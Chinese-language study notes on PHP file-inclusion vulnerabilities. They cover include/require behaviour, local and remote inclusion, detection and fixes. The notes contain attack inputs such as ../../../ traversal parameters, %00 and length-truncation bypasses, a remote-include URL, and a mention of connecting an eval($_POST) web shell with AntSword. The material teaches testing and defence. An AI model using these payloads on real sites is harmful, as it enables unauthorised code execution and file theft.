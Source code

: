 **文件操作安全** 分为 文件上传、文件包含、文件下载、文件读取

文件被解析：文件包含（如果文件是平台可以解析的脚本语言编写的，就解析，不行就显示

显示源代码，文件读取

提示文件下载，文件下载



![image-20230503201129897](E:\AppData\Roaming\Typora\typora-user-images\image-20230503201129897.png)

![image-20230503201207206](E:\AppData\Roaming\Typora\typora-user-images\image-20230503201207206.png)

## 文件上传



## 文件包含

远程包含条件：php.ini中allow_url_fopen和allow_url_include为on

把文件以脚本的方式执行

### 文件包含函数

##### PHP

include & require & include_once & require_once

| 函数         |                  |                                          |
| ------------ | ---------------- | ---------------------------------------- |
| include      | 报错也会继续执行 |                                          |
| require      | 报错就不执行     |                                          |
| include_once |                  | 只包含一次（本文件中只会包含一次目标文件 |
| require_once |                  | 只包含一次                               |

```text
PHP：include() 、include_once()、require()、require_once()
JSP/Servlet：ava.io.file()、java.io.filereader()
ASP：include file、include virtual
```





### 脚本

![image-20230503201346086](E:\AppData\Roaming\Typora\typora-user-images\image-20230503201346086.png)

eg. 1.txt里有php语句phpinfo()
include.php里include函数可以包含文件
访问/include.php?filename=1.txt即可执行phpinfo()

如果是eval($_POST[x])之类，可以用蚁剑连

/include.php?filename=1.txt，变量名x

### 检测

#### 白盒

#### 黑盒

- 工具扫描

- 公开漏洞

- 手工看参数值及功能点

看url中接的参数是否是文件名，然后看通过文件包含访问和直接访问，显示的结果是否相同，相同则说明为文件包含

看这个网页的功能

### 类型

##### 本地包含

包含服务器本地文件

- 有限制

在文件名后加.html，限制文件类型

include($filename."html")

绕过：

1.%00截断（php版本有限制）

?filename=../../../a.txt%00

2.长度截断（windows文件名长于256生效，Linux长于4096）

?filename=../../../a.txt......................................................................................................................................

- 无限制

?filename=../../../a.txt

##### 远程包含

可以包含网络上的文件，危害大于本地包含

php的远程包含开关：allow_url_include，on表允许

- 有限制

include($filename."html")

绕过：

?filename=http://www.xxx.com/a.txt%20

%20，%23，？等

- 无限制

?filename=http://www.xxx.com/a.txt

### 利用

如果有限制，怎么用一些伪协议来绕过

![image-20230503201129897](E:\AppData\Roaming\Typora\typora-user-images\脚本语言与伪协议.webp)

![image-20230503201129897](E:\AppData\Roaming\Typora\typora-user-images\php与伪协议.webp)



### 修复

如果一定要传参，那就**对参数值进行检测**

不需要传参，那就**固定文件**，写死include('1.txt')，或者**固定后缀**，这样黑盒很难测试出来

**上WAF**，看流量



